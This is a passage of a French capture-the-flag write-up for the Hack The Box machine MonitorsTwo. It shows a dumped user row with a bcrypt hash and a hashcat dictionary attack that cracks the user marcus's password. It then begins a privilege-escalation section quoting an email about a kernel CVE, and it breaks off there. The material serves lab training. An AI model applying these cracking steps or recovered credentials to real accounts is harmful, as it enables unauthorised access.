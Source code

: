 ```bash
4       marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C    0       Marcus Brune    marcus@monitorstwo.htb                  on      on      on      on      1       1       1       1       1       on      -1      -1 on       0       0       2135691668
```

On voit qu'il y a deux user qui vont beaucoup nous intéresser :

admin@monitorstwo.htb et marcus@monitorstwo.htb


### hashcat

On fait tourner hashcat.

```bash
kibatche@kibatche-System-Product-Name:/media/kibatche/Achille/shared_folder_vm/HTB/MonitorsTwo$ hashcat -m 3200 -a 0 ./marcus_hash.txt ../../rockyou.txt -w 3
hashcat (v6.2.5) starting

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 3 MB

Dictionary cache hit:
* Filename..: ../../rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
```

Et voilà le user.

marcus@monitorstwo.htb:funkymonkey

## Élévation de privilège.

Lorsqu'on se connecte, le serveur nous indique que nous avons un mail. Lisons donc immédiatement le mail :

```txt
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

```